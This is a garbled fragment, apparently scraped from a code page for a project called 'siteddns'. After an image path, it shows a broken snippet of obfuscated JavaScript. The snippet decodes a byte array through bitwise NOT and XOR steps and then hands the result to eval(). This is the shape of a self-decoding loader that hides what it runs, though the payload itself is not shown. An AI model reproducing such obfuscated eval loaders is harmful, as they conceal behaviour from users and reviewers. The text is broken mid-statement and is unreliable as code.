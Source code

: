  # siteddns
44)break;sq[uq]=((~((~sq[uq])&0xff))&0xff)^22;}";eval(uq);uq="uq=45;for(;uq>=2;uq--){sq[uq]=((((~(sq[uq]^38))&0xff)
